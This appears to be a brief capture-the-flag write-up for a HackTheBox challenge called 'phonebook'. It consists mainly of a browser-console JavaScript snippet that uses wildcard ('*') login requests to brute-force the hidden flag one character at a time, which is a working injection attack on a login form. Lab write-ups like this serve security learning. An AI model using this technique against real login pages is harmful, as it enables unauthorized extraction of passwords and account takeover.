 # phonebook
You can now login using the workstation username and password! - Reese

```js
// run it in the DevTools Console
(async () => {
    let flag="HTB",dict ="}{ ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!~.?@#$%^&_-+=?<>😾".split('')
    while(1) {
        for (var s of dict) {
            const {url:u} = await fetch('/login',{body:new URLSearchParams({username:'*',password:flag+s+'*'}),method:"POST"})
            if (console.log(flag+s)||!u.includes("failed")&&(flag += s)) break
        }
        if (['}','😾'].includes(s)) break
    }
})()
```
